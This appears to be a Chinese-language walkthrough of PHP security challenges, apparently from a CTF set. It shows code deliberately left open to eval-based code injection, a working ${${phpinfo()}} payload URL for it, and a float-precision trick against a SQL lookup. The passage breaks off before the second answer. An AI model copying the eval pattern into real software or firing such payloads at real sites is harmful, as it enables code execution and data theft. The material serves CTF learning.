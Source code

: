 php code：

```
#GOAL: gather some phpinfo();

$str=@(string)$_GET['str'];
eval('$str="'.addslashes($str).'";');

```

### 攻略：

eval('$str="'.addslashes($str).'";');这段最后成为php代码 $str="**_"，_**里双引号被addslashes，但内容在双引号内可以${${这里执行代码}}

### 所以：

```
http://phpchallenges2.sinaapp.com/index.php?str=${${phpinfo()}}

```

challenge 3
-----------

* * *

php code:

```
# GOAL: dump the info for the secret id
require 'db.inc.php';

$id = @(float)$_GET['id'];

$secretId = 1;
if($id == $secretId){
    echo 'Invalid id ('.$id.').';
}
else{
    $query = 'SELECT * FROM users WHERE id = \''.$id.'\';';
    $result = mysql_query($query);
    $row = mysql_fetch_assoc($result);

    echo "id: ".$row['id']."</br>";
    echo "name:".$row['name']."</br>";
}

```

### 攻略：

主要是利用php和mysql对float数字型支持的精度不同，精度小的会忽略不能支持的位数。

### 所以：
